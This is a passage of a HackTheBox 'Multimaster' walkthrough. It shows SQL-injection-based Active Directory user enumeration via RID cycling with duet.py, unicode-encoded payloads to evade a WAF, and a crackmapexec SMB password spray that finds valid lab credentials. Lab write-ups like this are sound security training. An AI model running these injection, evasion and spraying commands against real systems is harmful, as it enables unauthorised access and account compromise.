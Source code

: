 <img src="https://github.com/susMdT/secondsite.github.io/blob/master/assets/img/multimaster_4.PNG?raw=true" class="mx-auto d-block" unselectable="on" />

I had to modify the code on line 379, where the username is declared. I simply made it print the username (`print(username)`), and now I got a list of users (and groups) on my hand by running the script like so:

```
┌──(root💀kali)-[/home/kali/HackTheBox/multimaster]
└─# python3 duet.py -i "something'" -rid 1100-1200 -p name -r request.txt -t 4 -e unicode

====================================OUTPUT====================================
[+] Enumerating Active Directory via SIDs...
MEGACORP\\DnsAdmins
MEGACORP\\DnsUpdateProxy
MEGACORP\\svc-nas
MEGACORP\\Privileged IT Accounts
MEGACORP\\tushikikatomo
MEGACORP\\andrew
MEGACORP\\lana
```

I specified the rid to start at 1100, because thats where domain users typically begin. We also had to specify a sleep time because of the ip banning. Lastly, there is a convenient option to unicode the paylods to bypass the WAF. Adding these users to the list, I rerun my spray from before, and we get a hit!

```
┌──(root💀kali)-[/home/kali/HackTheBox/multimaster]
└─# crackmapexec smb 10.10.10.179 -u users.txt -p pass.txt
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\svc-nas:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\svc-nas:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\svc-nas:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\tushikikatomo:finance1
```
